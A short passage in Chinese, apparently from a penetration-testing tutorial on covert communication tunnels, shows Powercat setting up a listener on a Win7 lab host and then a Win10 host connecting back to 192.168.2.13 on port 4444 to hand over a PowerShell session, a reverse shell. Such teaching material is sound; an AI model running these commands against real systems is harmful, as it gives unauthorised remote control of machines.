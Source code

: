 （4）通过Powercat返回Powershell

在Win7上 运行powercat，监听4444端口（先监听后反弹，属于反向shell）

```
powercat -l -p 4444 -v
```

![](./img/隐藏通信隧道基础知识/51.png)

在Win10上运行powercat，反弹一个powershell：（-ep用于返回powershell）

```
powercat -c 192.168.2.13 -p 4444 -v -ep
```
